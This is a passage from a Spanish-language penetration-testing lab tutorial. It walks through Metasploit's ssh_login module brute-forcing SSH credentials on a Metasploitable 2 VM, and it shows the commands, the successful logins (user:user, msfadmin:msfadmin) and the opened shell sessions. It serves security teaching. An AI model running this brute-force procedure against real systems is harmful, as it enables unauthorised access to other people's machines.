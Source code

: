 > Nota: Los _auxiliary_ de Metasploit son herramientas para realizar diversas actividades de prueba de penetración, como escaneo, fuzzing (enviar datos inválidos para detectar vulnerabilidades) o ataques de DoS, sin explotar vulnerabilidades directamente, es decir, _no tienen payload_.

11. Los parámetros que vamos a usar del _auxiliary_ seleccionado son: _RHOSTS, USER_FILE y USER_AS_PASSWORD_, lo configuramos con el archivo _users.txt_ y _true_ (para el último parámetro):

```sh
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts ms2
rhosts => ms2
msf6 auxiliary(scanner/ssh/ssh_login) > set user_file users.txt
user_file => users.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set user_as_pass true
user_as_pass => true
```

> Nota: Asegúrate de estar en el directorio donde está el archivo _users.txt_ con el comando _pwd_, el prompt de _Metasploit_ no muestra el directorio actual.
> Nota: **USER_AS_PASS** es útil cuando los usuarios tienen contraseñas iguales a su nombre de usuario, una práctica común en entornos mal configurados o de laboratorio.

12. Ejecuta el auxiliary con _run_ o _exploit_:

```sh
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 10.0.2.5:22 - Starting bruteforce
[+] 10.0.2.5:22 - Success: 'user:user' 'uid=1001(user) gid=1001(user) groups=1001(user) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] SSH session 1 opened (10.0.2.15:39517 -> 10.0.2.5:22) at 2025-06-11 23:33:22 -0400
[+] 10.0.2.5:22 - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] SSH session 2 opened (10.0.2.15:35659 -> 10.0.2.5:22) at 2025-06-11 23:33:23 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

La salida del escaneo nos dice que utilizó un escaneo tipo _bruteforce_ (fuerza bruta), que es probar uno por uno las credenciales dadas por el archivo users.txt para ver si hubo una conexión exitosa o no, es decir, si se abrió un _sesión de shell o terminal_.

13. Para ver qué sesiones se abrieron por SSH con los 2 usuarios indicados en la salida del 
auxiliary, usamos:

```sh
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l

Active sessions
===============

  Id  Name  Type         Information  Connection
  --  ----  ----         -----------  ----------
  1         shell linux  SSH root @   10.0.2.15:39517 -> 10.0.2.5:22 (10.0.2.5)
  2         shell linux  SSH root @   10.0.2.15:35659 -> 10.0.2.5:22 (10.0.2.5)
```
